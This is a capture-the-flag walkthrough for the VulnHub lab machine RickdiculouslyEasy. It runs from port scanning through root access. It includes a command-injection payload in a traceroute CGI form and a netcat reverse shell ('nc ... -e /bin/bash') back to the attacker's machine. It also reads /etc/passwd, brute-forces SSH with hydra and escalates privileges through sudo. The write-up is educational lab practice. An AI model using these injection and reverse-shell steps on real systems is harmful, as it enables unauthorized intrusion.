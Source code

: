 RICKDICULOUSLYEASY #1 Write Up
https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

This CTF works on getting to 130 points, so we need to find every flag until it adds up to 130.

Step 1: NMAP
POINTS = 0

Starting with the nmap command to identify the ip and open ports of the target machine.
nmap -sS -sV -p- 10.0.0.24

Nmap scan report for 10.0.0.22
Host is up (0.00010s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh?
80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
9090/tcp  open  http    Cockpit web service 161 or earlier
13337/tcp open  unknown
22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
60000/tcp open  unknown

Step 2: PORT 21 | FTP 
POINTS = 0

Since we don't a user and password we can't log into FTP, but if enabled there is an option
in FTP whiche allows to enter as an anonymous user and thuse requires no password.
And It Worked...
We can get our first flag.

FLAG{Whoa this is unexpected} - 10 Points

Step 3: PORT 22 | SSH?
POINTS = 10

After using NMAP to find open ports on our target, we get a question mark next to the SSH protocol on port 22.
This means there is something other then SSH running on this port, we get an error beacuse port 22 is usually saved 
for the SSH protocol, and so we can't use SSH on port 22.
But we can see that SSH is also running on port 22222 with no qustion mark, this probebly means that this port 
is running the SSH protocol.

Before going into HTTP let's try some other odd ports.

Step 4: PORT 13337
POINTS = 20

Port 13337 is not a very common port and so it must have something interting behind it.
Using telnet to find more information about this port...

telnet 10.0.0.22 13337

We get another flag.

FLAG:{TheyFoundMyBackDoorMorty} - 10 Points

Step 5: PORT 60000
POINTS = 30

Once again using telnet to find more information about the port, we suprisingly get this message:
Welcome to Ricks half baked reverse shell...
#

Using the whoami command we can see that we see that we are the root user and find another FLAG.

FLAG{Flip the pickle Morty!} - 10 Points

Trying to change directory to /root, prompts "Permission Denied" and thuse for every command exepct whoami and ls.
This means that we are not really the root user and there is nothing more we can do in this reverse shell.

Step 6: PORT 9090 | ZEUS ADMIN
POINTS = 40

NMAP says PORT 9090 is using HTTP
After googling what PORT 9090 is, it says Zeus is an old web server. It can also be many other TCP based services.
So going to http://10.0.0.22:9090 
We get another FLAG:

FLAG {There is no Zeus, in your face!} - 10 Points

Step 7: PORT 80 | HTTP
POINTS = 50

Going into the http://10.0.0.22 we are greeted with a picture of Morty.
There are no hyperlinks and no buttons and by going into the develpor tools we don't see anything that can help us.
Using a tool named dirsearch we can know if there are more directorys and files inside the site.
And indeed there are: 

/passwords/
robots.txt

Going into http://10.0.0.22/passwords/ we get yet again another flag:

FLAG{Yeah d- just don't do it.} - 10 Points

There is also a passwords.html file that displays:

"Wow Morty real clever. Storing passwords in a file called passwords.html? 
You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. 
That's the last thing I need."

Using develepor tools get a comment:

<!--Password: winter-->

Now we got a password, winter.

Going into http://10.0.0.22/robots.txt we get this message:

They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*

We found that the web server has the cgi-bin directory, the cgi-bin folder is responsible for executing an external program.
By going to /cgi-bin/root_shell.cgi it says its  

--UNDER CONSTRUCTION-- 

By using develepor tools we can see 2 comments:
<!--HAAHAHAHAAHHAaAAAGGAgaagAGAGAGG-->
<!--I'm sorry Morty. It's a bummer.--> 

We cannot get anything from this program.

Going into /cgi/bin/tracertool.cgi we get MORTY'S MACHINE TRACER MACHINE and an input box.
Typing an IP executes the traceroute command and displays it output.
We may able to inject some commands into this by trying to use ;.
Entering "; whoami" outputs "apache", IT WORKS!.
Now we can try a reverse shell.

Step 8: REVERSE SHELL
POINTS = 50

Local Machine:
nc -lnvp 4444

Target Machine:
; nc 10.0.0.18 4444 -e /bin/bash

And we get a connection, using "whoami" to see what user is running and we get the apache user.
Trying to use cat to read the /etc/passwd file does not seem to work, instead it prints an ascii banner of a cat, pretty cool 
but not helpful.
We can try using the tail or head command, since the users are stored at the bottom of the /etc/passwd file we'll use tail.
We get another 3 users:

Summer
Morty
RickSanchez

Step 9: PORT 22222 | REAL SSH
POINTS = 50

Now that we have a password and some usernames we can try loging to the machine via ssh.

Morty does not seem to work, so is RickSanchez, but we get a connection with Summer.

ssh Summer@10.0.0.22 -p 
Summer@10.0.0.22's password: "winter"

Ah get it , winter summer, never mind.

We got another FLAG:

FLAG{Get off the high road Summer!} - 10 Points

Going into the /home folder we see there are 3 directorys, Morty, RickSanchez and Summer.
The Morty directory has a .jpg and a zip file.
Opening the .jpg we see a photo of Rick, nothing on the surface but using the strings command we see an intersting string.

"The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek"

This leads us to the .zip file, to unzip it we must enter a password, entering the found password and we get a .txt file which reads:

Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points

The RickSanchez directory contains 2 more directorys, changing to the ThisDoesntContainAnyFlags dir, we find out that
there are no flags. Suprising. :3

The second dir is RICKS_SAFE, it contains an exectuable named safe, after attamping to execute it, we find 
out that we don't have permissions.

But we can download it to our local machine.
once executing it we get:

"Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!"

We found a password eariler in the flag: 131333. If we try to pass the password as an argmuent to ./safe, we get a FLAG.

FLAG{And Awwwaaaaayyyy we Go!} - 20 Points 

And this message: 

"Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order

1 uppercase character
1 digit
One of the words in my old bands name."

Step 10: BRUTE FORCE
POINTS = 100

Searching google for Rick's band, we find that his band's name was "The Flesh Curtains".
After making a python script that makes a a wordlist with the specified requiremnts:

1 uppercase character
1 digit
One of the words in my old bands name.

We can use hydra to brute force with the wordlist and get a password.
Trying to brute force the root user did not work, but the RickSanchez was a success, the password is:

P7Curtains

Now we the password for RickSanchez and we can log in.
Using sudo -l to see if we have permissions, and we see that we can have full permissions.

Step 11: ROOT USER
Running the "su" as with and we have access to the root user and we read the final FLAG.

FLAG: {Ionic Defibrillator} - 30 points

And with 130 points and 0 more to go the CTF is officaily completed.
